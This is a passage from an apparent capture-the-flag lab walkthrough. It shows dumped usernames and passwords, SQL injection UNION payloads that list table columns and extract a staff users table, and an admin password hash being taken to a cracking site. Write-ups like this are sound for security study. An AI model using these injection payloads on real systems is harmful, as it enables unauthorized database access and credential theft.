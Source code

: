 | joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |

We repeat the process on the Staff table,

```
search=Mary' UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='Staff' AND TABLE_NAME='Users'-- -
```

```sql
search=Mary' UNION SELECT 1,2,3,4,Username,Password From Staff.Users-- -
```



<figure><img src="../../.gitbook/assets/Pasted image 20231102191002.png" alt=""><figcaption></figcaption></figure>

| username | password                         |
| -------- | -------------------------------- |
| admin    | 856f5de590ef37314e7c3bdf6f8a66dc |

We try to [crack](https://crackstation.net/) the admin hash,



<figure><img src="../../.gitbook/assets/Pasted image 20231102191130.png" alt=""><figcaption></figcaption></figure>
